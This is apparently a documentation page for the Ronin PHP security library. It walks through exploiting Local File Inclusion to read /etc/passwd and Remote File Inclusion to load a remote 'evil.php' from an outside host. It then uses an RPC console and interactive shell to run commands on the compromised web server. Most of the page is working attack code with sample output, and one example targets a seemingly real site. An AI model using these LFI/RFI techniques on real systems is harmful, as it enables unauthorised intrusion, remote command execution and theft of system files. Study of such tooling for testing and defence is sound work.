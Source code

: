 ```yaml
---
layout: default
title: Using Ronin PHP
---
```


Using Ronin PHP
===============

The [Ronin PHP](http://ronin.rubyforge.org/docs/ronin-php/) library provides
support for PHP related security tasks, such as Local File Inclusion (LFI)
or Remote File Inclusion (RFI).

Before we can use this library in the Ronin Console, we must first install
the library. To install the Ronin Web library used in this guide, simply
run the following command:

    $ sudo gem install ronin-php

To start the Ronin Console, with ronin-php pre-loaded, simply run the
`ronin-php` command:

    $ ronin-php

Local File Inclusion (LFI)
--------------------------

Test a URL for LFI:

    url = URI('http://www.e-builds.com/?page=Portfolio')
    url.has_lfi?
    # => true

Obtain a [Ronin::PHP::LFI](http://ronin.rubyforge.org/docs/ronin-php/Ronin/PHP/LFI.html)
object which can be used to access files or finger-print the web server:

    lfi = url.first_lfi

Request a local file as a `String`:

    lfi.get('/etc/passwd')

Request a local file as a [Ronin::PHP::LFI::File](http://ronin.rubyforge.org/docs/ronin-php/Ronin/PHP/LFI/File.html)
object:

    lfi.include('/etc/passwd')
    # => #<Ronin::PHP::LFI::File:/etc/passwd>

Remote File Inclusion (RFI)
---------------------------

Test a URL for RFI:

    url = URL('http://www.example.com/page.php?layout=default')
    url.has_rfi?
    # => true

Obtain a [Ronin::PHP::RFI](http://ronin.rubyforge.org/docs/ronin-php/Ronin/PHP/RFI.html)
object which can be used to include other PHP files:

    rfi = url.first_rfi

Including a remote PHP file:

    rfi.include('http://www.shells4you.com/evil.php')

Using the Ronin PHP Remote Procedure Call (RPC) server:

    client = rfi.rpc

Using the PHP Console service to call PHP functions:

    php = client.console

    php.phpversion
    # => "4.3.10"

    php.php_uname('-m')
    # => "i686"

Using the PHP Shell service for quick command execution:

    shell = client.shell

    shell.cwd
    # => "/var/www/site/\n"

    shell.cd '..'
    # => ""

    shell.exec('date -u')
    # => "Thu Aug 21 10:29:38 UTC 2008\n"

    shell.system('ps')
    #    PID TTY          TIME CMD
    #  27042 pts/8    00:00:00 bash
    #  27841 pts/8    00:00:00 ps
    # => nil

Using the Interactive Shell for the PHP-RPC Console service:

    php.interact
    # >> phpversion();
    # => "4.3.0"
    # >> explode('|', 'one|two|three');
    # => Array(
    #   "one",
    #   "two",
    #   "three"
    # )
    # >> exit
    # => nil

Using the Interactive Shell for the PHP-RPC Shell service:

    shell.interact
    # $ pwd
    # /var/www/site/
    # $ cd ..
    # $ ls -la
    # ...
    # $ exit
    # => nil

